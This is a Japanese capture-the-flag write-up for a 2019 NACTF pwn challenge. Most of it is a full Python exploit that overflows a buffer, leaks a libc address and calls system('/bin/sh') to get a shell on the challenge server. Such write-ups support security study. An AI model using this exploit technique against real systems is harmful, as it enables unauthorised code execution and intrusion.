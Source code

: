 # [pwn 350pts] Loopy #0 - Network Academia CTF 2019
32ビットバイナリで、NX以外無効です。
```
$ checksec -f loopy-0
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   68 Symbols     No       0               4       loopy-0
```

BOFがあるのでlibc leakしてシェルを取るだけです。
なんかローカルだとバイナリが動きませんが、この程度なら動かさなくてもexploitコードが書けるので問題なしです。
```
from ptrlib import *

elf = ELF("./loopy-0")
libc = ELF("./libc.so.6")
sock = Socket("shell.2019.nactf.com", 31283)
payload = b'A' * 0x4c
payload += p32(elf.plt("printf"))
payload += p32(elf.symbol("vuln"))
payload += p32(elf.got("printf"))
sock.sendlineafter(">", payload)

sock.recvuntil(": ")
libc_base = u32(sock.recv()[len(payload):len(payload) + 4]) - libc.symbol("printf")
logger.info("libc base = " + hex(libc_base))

payload = b'A' * 0x4c
payload += p32(libc_base + libc.symbol("system"))
payload += p32(libc_base + libc.symbol("exit"))
payload += p32(libc_base + next(libc.find("/bin/sh")))
sock.sendline(payload)

sock.interactive()
```

# 感想
簡単ですね。
